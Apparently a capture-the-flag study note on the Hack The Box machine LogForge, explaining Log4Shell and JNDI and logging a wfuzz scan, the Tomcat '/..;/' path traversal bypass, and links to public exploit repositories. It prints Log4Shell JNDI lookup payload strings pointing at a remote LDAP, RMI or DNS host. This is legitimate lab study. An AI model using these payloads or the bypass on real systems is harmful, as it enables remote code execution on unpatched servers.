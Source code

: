 
# 1. Lessons Learned

## 1.1 What is log4j2?
Apache **Log4j** is a [Java](https://en.wikipedia.org/wiki/Java_(software_platform) "Java (software platform)")-based [logging](https://en.wikipedia.org/wiki/Logging_(software) "Logging (software)") utility originally written by Ceki Gülcü. It is part of the [Apache Logging Services](https://en.wikipedia.org/w/index.php?title=Apache_Logging_Services&action=edit&redlink=1 "Apache Logging Services (page does not exist)"), a project of the [Apache Software Foundation](https://en.wikipedia.org/wiki/Apache_Software_Foundation "Apache Software Foundation"). Log4j is one of several [Java logging frameworks](https://en.wikipedia.org/wiki/Java_logging_framework "Java logging framework").

*https://en.wikipedia.org/wiki/Log4j

## 1.2 What is log4shell?
[Log4Shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), disclosed on December 10, 2021, is a remote code execution (RCE) vulnerability affecting Apache’s Log4j library, versions 2.0-beta9 to 2.14.1. The vulnerability exists in the action the Java Naming and Directory Interface (JNDI) takes to resolve variables. Affected versions of Log4j contain JNDI features—such as message lookup substitution—that do not protect against adversary-controlled Lightweight Directory Access Protocol (LDAP), Domain Name System (DNS), and other JNDI-related endpoints.
*https://www.cisa.gov/uscert/ncas/alerts/aa21-356a

According to the apache website, CVE-2021-44832 is fixed in Log4j 2.17.1 (Java 8), 2.12.4 (Java 7) and 2.3.2 (Java 6)
So let's download vulnerable code. 

## 1.3 So what is happening?
>...snip...
>the **JNDI** lookup paired with the **LDAP** protocol, will fetch a specified Java class from a remote source and deserialize it, executing some of the class’s code in the process.
...snip...

*https://jfrog.com/log4shell-0-day-vulnerability-all-you-need-to-know/

### 1.3.1 Typical format

`${jndi:ldap://somedomain.com}`
`${jndi:**ldaps**://somedomain.com}`
`${jndi:**rmi**://somedomain.com}`
`${jndi:**dns**://somedomain.com}` (Allows detecting vulnerable servers, does not lead to code execution.)

*https://jfrog.com/log4shell-0-day-vulnerability-all-you-need-to-know/


## 1.4 What is JNDI?
The Java Naming and Directory Interface™ (JNDI) is an application programming interface (API) that provides [naming](https://docs.oracle.com/javase/tutorial/jndi/overview/naming.html) and [directory](https://docs.oracle.com/javase/tutorial/jndi/overview/dir.html) functionality to applications written using the Java™ programming language. It is defined to be independent of any specific directory service implementation. Thus a variety of directories -new, emerging, and already deployed can be accessed in a common way.

## 1.5 JNDI Architecture?
JAVA Application||
JNDI API
Naming Manager  
JNDI SPI
|_LDAP_|_DNS_|_NIS_|_NDS_|_RMI_|_COBRA_|

**SPI - Service provider Interface - Specific to a service.  
**NIS - Network Information Service**
NIS is a distributed naming service. It is a mechanism for identifying and locating network objects and resources. It provides a uniform storage and retrieval method for network-wide information in a transport-protocol and media-independent fashion.
**NDS - Novell Directory servcie**
Novell Directory Services, also known as NDS, is a distributed network directory service for managing network resources such as users, servers, and peripherals that is loosely modeled after the [X.500 specification](https://networkencyclopedia.com/x-500/). Novell Directory Services (NDS) was originally called NetWare Directory Services.

*https://docs.oracle.com/javase/tutorial/jndi/overview/index.html*
*https://networkencyclopedia.com/novell-directory-services-nds/*
*https://docs.oracle.com/cd/E18752_01/html/816-4556/anis1-25461.html*



# 2. Test Summary



Webpage = Some sort of whitelisting
..; bypass. 

tomcat vulnerability --> not it. Input validation. 

``







Revealed version Apache Tomcat/ 9.0.31

According to the page,

**Important: Remote Code Execution via session persistence** [CVE-2020-9484](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484)

```bash
┌──(kali㉿kali)-[~/HTB/logforge]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc=404 http://logforge.htb/FUZZ |tee wfuzz.80

┌──(kali㉿kali)-[~/HTB/logforge]
└─$ cat wfuzz.80    
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.138/FUZZ
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                           
=====================================================================

000000003:   403        9 L      28 W       277 Ch      "admin"                                           
000000002:   302        0 L      0 W        0 Ch        "images"                                          
000000200:   403        9 L      28 W       277 Ch      "manager"                                         
000004227:   403        9 L      28 W       277 Ch      "server-status"                                   
000004255:   200        32 L     48 W       489 Ch      "http://10.10.11.138/"                            
000030014:   200        32 L     48 W       489 Ch      "http://10.10.11.138/"                            
000045543:   403        9 L      28 W       277 Ch      "host-manager"                                    
000059104:   200        32 L     48 W       489 Ch      "http://10.10.11.138/"                            

Total time: 0
Processed Requests: 62272
Filtered Requests: 62264
Requests/sec.: 0

                                                  
```
Directly dive in to tomcat vulnerability but turns out the website is not reacheable. 

https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

Tomcat will threat the sequence **/..;/** as **/../** and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.

Well stated here.
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat




```
1.  Not everything with Apache in its name and HTTP functions is exactly **the** Apache HTTPD server. Apache Tomcat, for example, is completely different HTTP web server. It is written in Java and can pretty much be configured to use Log4J. I am not really sure if it is at all possible to log otherwise in Tomcat.
```
https://serverfault.com/questions/1086113/does-apache-webserver-use-log4j-cve-2021-44228




Tested out with 
https://raxis.com/blog/log4j-exploit
https://github.com/kozmer/log4j-shell-poc
Issue on logforge --> WAF/ username/passwordhttps://github.com/kozmer/log4j-shell-poc


https://www.google.com/search?q=tomcat+java+log4j+example&client=firefox-b-1-e&sxsrf=ALiCzsZdO-xsWXuiXwnAIVIzZYOjLYh_mg%3A1669208545332&ei=4Rl-Y_LqE-KyqtsPjeOEqAM&ved=0ahUKEwiy35mzrsT7AhVimWoFHY0xATUQ4dUDCBA&uact=5&oq=tomcat+java+log4j+example&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAzIGCAAQFhAeOgoIABBHENYEELADSgQIQRgASgQIRhgAUN4BWKYKYOcKaAFwAXgAgAF-iAHRBJIBAzYuMZgBAKABAcgBCMABAQ&sclient=gws-wiz-serp



https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat


https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.31/src/



https://www.cybersecurity-help.cz/vdb/SB2020052124

https://github.com/VICXOR/CVE-2020-9484
https://github.com/RepublicR0K/CVE-2020-9484
